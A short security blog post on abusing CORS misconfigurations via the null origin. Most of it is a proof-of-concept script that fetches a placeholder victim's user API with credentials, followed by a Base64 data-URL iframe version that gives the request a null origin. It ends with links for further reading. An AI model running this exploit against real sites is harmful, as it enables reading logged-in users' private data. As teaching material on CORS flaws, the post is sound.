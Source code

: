 ```yaml
---
layout: single
title:  "Abusing CORS via null origin"
---
```


![](http://okqza840l.bkt.clouddn.com/20180704165454.png)
![](http://okqza840l.bkt.clouddn.com/20180704165532.png)

POC:
```
<script>
    var url = "https://www.victim.com/api/getuser";
    var req = new XMLHttpRequest();
    req.open('get',url,true);
    req.setRequestHeader("Accept", "application/json");
    req.withCredentials = true;
    req.send();
    req.onreadystatechange= function(){
    if(req.readyState == req.DONE) {
        document.write(this.responseText)
    }}
 </script>
```
This code was converted to the equivalent Base64 string.
```
<iframe width=100% height=100% src="data:text/html;base64,PHNjcmlwdD4gdmFyIHVybCA9ICJodHRwczovL3d3dy52aWN0aW0uY29tL2FwaS9nZXR1c2VyIjsgIHZhciByZXEgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTtyZXEub3BlbignZ2V0Jyx1cmwsdHJ1ZSk7cmVxLnNldFJlcXVlc3RIZWFkZXIoIkFjY2VwdCIsICJhcHBsaWNhdGlvbi9qc29uIik7cmVxLndpdGhDcmVkZW50aWFscyA9IHRydWU7cmVxLnNlbmQoKTtyZXEub25yZWFkeXN0YXRlY2hhbmdlPSBmdW5jdGlvbigpe2lmKHJlcS5yZWFkeVN0YXRlID09IHJlcS5ET05FKSB7ZG9jdW1lbnQud3JpdGUodGhpcy5yZXNwb25zZVRleHQpfSB9PC9zY3JpcHQ+">
```
Further reading:
- [Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
- [Exploiting Misconfigured CORS (Cross Origin Resource Sharing)](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
- [Exploiting Misconfigured CORS via Wildcard Subdomains](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-via-wildcard-subdomains)
- [CORS misconfigurations on a large scale](https://web-in-security.blogspot.com/2017/07/cors-misconfigurations-on-large-scale.html)
- [CORS Exploitation: Data exfiltration when allowed origin is set to NULL](https://yassineaboukir.com/blog/cors-exploitation-data-exfiltration-when-allowed-origin-is-set-to-null/)
- [CORS Misconfigurations Explained](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
